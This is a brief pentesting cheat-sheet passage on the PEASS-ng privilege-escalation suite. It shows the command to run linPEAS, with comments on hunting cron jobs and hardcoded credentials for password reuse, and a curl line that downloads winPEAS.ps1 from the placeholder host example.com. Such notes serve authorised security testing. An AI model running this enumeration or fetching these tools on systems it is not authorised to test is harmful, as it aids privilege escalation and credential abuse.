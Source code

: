 # # PEASS-ng - Privilege Escalation Awesome Scripts SUITE new generation

https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS

```bash
# Automated local enumeration
# Look for any highlighted stuff
# Cron jobs
# Non-standard scripts or programs
# Hardcoded credentials. Check password re-use against existing accounts
./linpeas.sh -q
```

WinPEAS can be found [here](https://github.com/carlospolop/PEASS-ng/releases)

```powershell
curl -o winPEAS.ps1 http://example.com/winPEAS.ps1
```